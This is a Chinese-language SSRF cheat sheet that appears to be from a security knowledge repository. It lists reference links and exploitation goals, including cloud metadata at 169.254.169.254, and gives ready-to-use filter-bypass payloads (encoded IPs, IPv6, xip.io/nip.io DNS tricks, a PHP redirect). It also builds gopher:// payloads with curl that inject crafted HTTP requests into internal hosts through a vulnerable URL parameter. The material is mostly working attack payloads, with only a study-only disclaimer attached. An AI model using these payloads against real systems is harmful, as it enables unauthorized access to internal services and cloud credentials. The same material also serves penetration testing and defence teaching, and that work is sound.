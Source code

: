 # SSRF

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**简介**

很多 web 应用都提供了从其他的服务器上获取数据的功能.使用用户指定的 URL,web 应用可以获取图片,下载文件,读取文件内容等.这个功能如果被恶意使用,可以利用存在缺陷的 web 应用作为代理攻击远程和本地的服务器.这种形式的攻击称为服务端请求伪造攻击(Server-side Request Forgery).

一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

**相关文章**
- [SSRF 漏洞分析及利用](https://www.knowsec.net/archives/85/)
- [浅析 SSRF 原理及利用方式](https://www.anquanke.com/post/id/145519)
- [SSRF 利用与防御](https://hellohxk.com/blog/ssrf/)
- [聊一聊ssrf漏洞的挖掘思路与技巧](https://bbs.ichunqiu.com/thread-49370-1-1.html)
- [Bypassing SSRF Protection](https://medium.com/@vickieli/bypassing-ssrf-protection-e111ae70727b)
- [Gopher协议在SSRF漏洞中的深入研究](https://zhuanlan.zhihu.com/p/112055947)
- [gopher 协议初探](https://www.cnblogs.com/Konmu/p/12984891.html)
- [How to hack a company by circumventing its WAF through the abuse of a different security appliance and win bug bounties](https://www.redtimmy.com/web-application-hacking/how-to-hack-a-company-by-circumventing-its-waf-through-the-abuse-of-a-different-security-appliance-and-win-bug-bounties/) - 利用 ssrf "借刀杀人"

**相关案例**
- [My First SSRF Using DNS Rebinding](https://geleta.eu/2019/my-first-ssrf-using-dns-rebinfing/)
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876) - 通过对 ssrf 访问 Google Cloud Metadata,直至 RCE
- [SSRF (Server Side Request Forgery) worth $4,913](https://medium.com/techfenix/ssrf-server-side-request-forgery-worth-4913-my-highest-bounty-ever-7d733bb368cb)
- [Just Gopher It: Escalating a Blind SSRF to RCE for $15k](https://sirleeroyjenkins.medium.com/just-gopher-it-escalating-a-blind-ssrf-to-rce-for-15k-f5329a974530)
- [SSRF exploitation in Spreedsheet to PDF converter](https://r4id3n.medium.com/ssrf-exploitation-in-spreedsheet-to-pdf-converter-2c7eacdac781) - excel 中的 ssrf+xxe 读文件

**payload**
- [bugbounty-cheatsheet/cheatsheets/ssrf.md](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/ssrf.md)
- [AboutSecurity/Payload/SSRF](https://github.com/ffffffff0x/AboutSecurity/blob/master/Payload/SSRF/)

**相关工具**
- [In3tinct/See-SURF](https://github.com/In3tinct/See-SURF) - python 写的 ssrf 参数扫描工具
- [swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap) - 自动化 Fuzz SSRF 开发工具
- [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus) - 该工具生成 gopher payload ，以利用 SSRF 并在各种服务器中获得 RCE

**相关资源**
- [cujanovic/SSRF-Testing](https://github.com/cujanovic/SSRF-Testing)

---

## 利用方式

- 内部端口扫描
- Leverage cloud services
    - 169.254.169.254
        - https://www.ibm.com/developerworks/cn/cloud/library/1620-openstack-metadata-service/index.html
- reveal IP Address & HTTP Library
    - https://webhook.site/
- Download a very large file (Layer 7 DoS)

---

## 绕过方法

**相关资源**
- [Fuzz_head](https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/http/Fuzz_head.txt)

**特殊 IP**
```
http://0177.1/
http://0x7f.1/
http://127.000.000.1
https://520968996
```

> The latter can be calculated using http://www.subnetmask.info/

**错误 IP**
```
http://127.1
http://0
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib : 3.3.3.3
http://127.1.1.1:80\@127.2.2.2:80/
```

**IPv6**

```
http://[::1]
http://[::]
http://[::]:80/
http://0000::1:80/
```

**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**DNS 欺骗**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```

> http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

> http://nip.io

**重定向欺骗**
```
<?php header(“location: http://127.0.0.1"); ?>
```

**编码绕过**

这些包括十六进制编码，八进制编码，双字编码，URL 编码和混合编码。

```
127.0.0.1 translates to 0x7f.0x0.0x0.0x1
127.0.0.1 translates to 0177.0.0.01
http://127.0.0.1 translates to http://2130706433
localhost translates to %6c%6f%63%61%6c%68%6f%73%74
```

---

## Gopher

gopher 协议支持发出 GET、POST 请求：可以先截获 get 请求包和 post 请求包，在构成符合 gopher 协议的请求。

gopher 协议是 ssrf 利用中最强大的协议

**格式**
```
gopher://<host>:<port>/<gopher-path>_后接TCP数据流

curl gopher://127.0.0.1:8000/_GET%20test
```

gopher的默认端口是70

如果发起 post 请求，回车换行需要使用 %0d%0a，如果多个参数，参数之间的 & 也需要进行 URL 编码

**发送 get 请求**

如果要发送如下 payload
```
GET /test/get.php?name=test HTTP/1.1
Host: 192.168.1.1
```

那么需要变为如下格式
```
curl gopher://192.168.1.2:80/_GET%20/test/get.php%3fname=test%20HTTP/1.1%0d%0AHost:%20192.168.1.2%0d%0A
```

在 HTTP 包的最后要加 %0d%0a，代表消息结束

**发送 post 请求**

```
POST /test/post.php HTTP/1.1
Host: 192.168.1.1
Content-Type:application/x-www-form-urlencoded
Content-Length:11

name=test
```

那么需要变为如下格式
```
curl gopher://192.168.1.1:80/_POST%20/test/post.php%20HTTP/1.1%0d%0AHost:192.168.1.1%0d%0AContent-Type:application/x-www-form-urlencoded%0d%0AContent-Length:11%0d%0A%0d%0Aname=test%0d%0A
```

**ssrf 中的利用**

```
http://192.168.1.1/test/ssrf.php?url=gopher://192.168.1.2:6666/_abc

# 由于PHP在接收到参数后会做一次URL的解码,所以要在 url 编码一次
http://192.168.1.1/test/ssrf.php?url=gopher%3A%2F%2F192.168.1.2%3A80%2F_GET%2520%2Ftest%2Fget.php%253fname%3Dtest%2520HTTP%2F1.1%250d%250AHost%3A%2520192.168.1.2%250d%250A
```

URL中的／不能进行两次编码，端口号不可以两次编码,协议名称不可两次转码
